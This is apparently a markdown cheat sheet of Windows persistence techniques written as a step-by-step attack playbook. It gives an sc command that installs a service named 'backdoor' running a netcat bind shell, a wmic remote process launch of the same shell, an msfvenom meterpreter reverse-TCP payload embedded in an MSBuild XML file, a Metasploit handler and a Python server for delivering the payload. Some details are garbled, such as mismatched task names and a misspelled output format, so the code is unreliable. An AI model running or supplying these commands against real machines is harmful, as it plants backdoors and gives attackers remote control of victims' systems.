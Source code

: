 # Persistence

## sc
```bash
# target Terminal 1:
sc \\192.168.1.69 create backdoor binpath= "cmd.exe /k c:\malware\nc.exe -dlp 4444 -e cmd.exe"
sc \\192.168.1.69 start backdoor
```

## wmic
```bash
# target Terminal 2:
wmic node:192.168.1.69 process call create "c:\malware\nc.exe -dlp 4444 -e cmd.exe"
```

## MSFVenom, Metasploit, and MSBuild
Identify the correct MSBuild version for the target. 
```bash
# target Terminal 1:
dir /b /s C:\msbuild.exe
```

Create the payload. 
```bash
# attacker Terminal 1:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 -f charp -O payload.cs
```

Add the payload to a MSBuild XML file (see below). Then, get the XML file onto the target. 
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Demo">
   <MSBuildShell/>
  </Target>
   <UsingTask
    TaskName="Demo"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <!-- Double-check the path above this line! -->
    <Task>	
      <Code Type="Class" Language="cs">
      <!-- Payload generated by MSFVenom -->
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Start a handler. 
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

Host the exploit so the target can download it. 
```bash
# attacker Terminal 2:
sudo python3 -m http.server 8000
```

Get the target to execute the exploit. 
```bash
# target Terminal 1:
C:\Windows\Microsoft.NET\path\to\MSBuild.exe C:\rshell.xml
```


